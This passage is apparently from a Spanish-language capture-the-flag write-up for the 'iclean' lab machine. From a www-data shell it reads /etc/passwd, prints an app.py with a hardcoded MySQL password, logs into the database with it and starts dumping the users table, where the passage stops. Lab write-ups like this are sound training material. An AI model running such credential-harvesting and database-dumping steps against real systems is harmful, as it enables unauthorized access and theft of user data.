 ~~~bash
www-data@iclean:/opt/app$ cat /etc/passwd | grep bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
consuela:x:1000:1000:consuela:/home/consuela:/bin/bash
~~~

- En el directorio donde spawneamos, tenemos un archivo `app.py`, que tiene credenciales hardcodeadas xd:

~~~bash
cat app.py
from flask import Flask, render_template, request, jsonify, make_response, session, redirect, url_for
from flask import render_template_string
import pymysql
import hashlib
import os
import random, string
import pyqrcode
from jinja2 import StrictUndefined
from io import BytesIO
import re, requests, base64

app = Flask(__name__)

app.config['SESSION_COOKIE_HTTPONLY'] = False

secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
app.secret_key = secret_key
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
~~~

- Nos conectamos a la base de datos:

~~~bash
www-data@iclean:/opt/app$ mysql -u iclean -p -h 127.0.0.1 -D capiclean
mysql -u iclean -p -h 127.0.0.1 -D capiclean
Enter password: pxCsmnGLckUb
~~~

- Y ahí está nuestro usuario:

~~~bash
mysql> show tables;
show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
~~~